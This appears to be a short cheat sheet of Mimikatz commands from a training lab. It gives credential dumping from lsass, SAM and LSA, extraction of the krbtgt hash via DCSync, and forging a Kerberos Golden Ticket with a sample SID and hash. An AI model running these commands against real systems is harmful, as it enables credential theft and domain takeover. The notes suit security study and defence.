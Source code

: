 ```yaml
---
title: Mimikatz
---
```


Mimikatz requires Admin privileges to function property  
Check Privilege : `privilege::debug`  
Output : 20 OK (We have sufficient privileges)

`log <filename>`  
Logs all commands into a log file

---

### Dumping Hashes

LSA : Local Security Authority  
lsass.exe : Local Security Authority Subsystem Service  
SAM : Security Accounts Manager

`sekurlsa::logonpasswords`  
Returns NTLM passwords stored in memory using lsass.exe service  
On older versions of Windows plaintext passwords where returned

`lsadump::sam`  
Dump content of SAM database

`lsadump::lsa`  
Dump LSA credentials  
If NTLM hashes are not shown use the `/patch` option

---

### Kerberos Golden Ticket Attack

For getting the Golden Ticket we need to have access to a user that has some sort of Admin privilege on Active Directory

`lsadump::lsa /inject /name:krbtgt`  
Retrieve the Hash of the krbtgt account from the Domain Controller

`lsadump::dcsync /domain:controller.local /user:krbtgt`  
Fetch Hash of Kerberos account using Dcsync Feature

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /id:500`  
Generate a Golden Ticket and add in current session  
`/user` : Can use any name  
`/sid` : Krbtgt user sid  
`/krbtgt` : NTLM Hash  
`/id` : Id of domain admin account (Usually 500)

---

**<u>References</u>**:

* [Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)